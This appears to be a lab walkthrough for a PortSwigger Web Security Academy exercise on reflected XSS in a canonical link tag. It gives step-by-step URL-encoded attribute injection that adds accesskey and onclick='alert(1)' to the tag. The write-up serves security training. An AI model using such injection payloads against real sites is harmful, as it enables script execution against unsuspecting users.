



# Reflected XSS in canonical link tag

## This lab reflects user input in a canonical link tag and escapes angle brackets.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack on the home page that injects an attribute that calls the `alert` function.

## To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

## Please note that the intended solution to this lab is only possible in Chrome.

### HINT:

```javascript
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

step1
click on home page and open source code

`<link rel="canonical" href='https://0ad500d9046781128056a8ff005b008e.web-security-academy.net/'/>`



stpe 2

add accesskey="X"
`https://0ad500d9046781128056a8ff005b008e.web-security-academy.net/?%20accesskey=%22X%22`
%20 for space

### step3

URL Encoding Reference ' = %27
'accesskey='x'onclick='alert(1)'
%27accesskey=%27x%27onclick=%27alert(1)



### step4

remove view-source: from url
and press alt + x

